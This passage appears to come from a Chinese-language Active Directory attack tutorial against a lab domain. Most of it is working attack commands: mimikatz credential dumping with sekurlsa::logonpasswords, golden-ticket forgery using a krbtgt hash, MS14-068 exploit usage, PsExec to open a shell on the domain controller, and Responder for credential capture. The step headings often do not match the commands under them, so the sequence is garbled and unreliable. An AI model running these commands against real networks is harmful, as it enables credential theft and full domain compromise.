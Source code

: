 ```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > 2.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmCrE8b0LVgSW66JW3WCylcL3RLYJtw41XCZTiaAtn4lGLjBq2wYw2rGw/640?wx_fmt=png)

**1.** **获取票据伪造所需要的 TGT 信息**。**获取 krbtst 的 hash，这里是直接在域控里面看的。实际情况就是上面说的无解死循环**  

```
mimikatz.exe "kerberos::golden /user:win7 /domain:safe-duck.com /sid:S-1-5-21-4065905668-3814866385-3259433788 /target:WIN-6JM3ECTM2CO.safe-duck.com /service:cifs /rc4:9f1ed160f3dff10ba81109cbaf19f5fc /ptt" exit
```

```
PsExec.exe \\\\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

**2\. 获取域的 sid 信息：在已经拿下的域主机获取执行命令**

```
https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
```

```
ms14-068.exe -u win7@safe-duck.com -p 123.com -s S-1-5-21-4065905668-3814866385-3259433788-1105 -d WIN-6JM3ECTM2CO.safe-duck.com
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmsPGnKJNkibvabKpiavvf4xfNgqvn4ad5Slwrib2SRLrNYDH9ic1o7kTo3g/640?wx_fmt=png)

**3.mimikatz 工具伪造黄金票据：**

```
mimikatz.exe "kerberos::ptc TGT\_hh@safe-duck.com.ccache" exit
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmzgq69bcibFK7NoiczpuMvNxHfKVBPbFokSWEzDIBF9DIE7x8t5UIIEvg/640?wx_fmt=png)

**4\. 查看共享**

```
PsExec.exe \\\\WIN-6JM3ECTM2CO.safe-duck.com cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm10qe6ENDxJU6Ycicq8Iy2Xta5avwLp2vibMesfN1F8El3pjHMJsxbe8g/640?wx_fmt=png)

**5\. 利用 psexec 调用目标域控制器的 cmd**

```
Responder下载地址：https://github.com/lgandx/Responder
```

```
responder -I eth0
#Responder会启动80端口，用之前关闭80服务
/etc/init.d/apache2 stop
```

**五、白银票据攻击测试**
==============
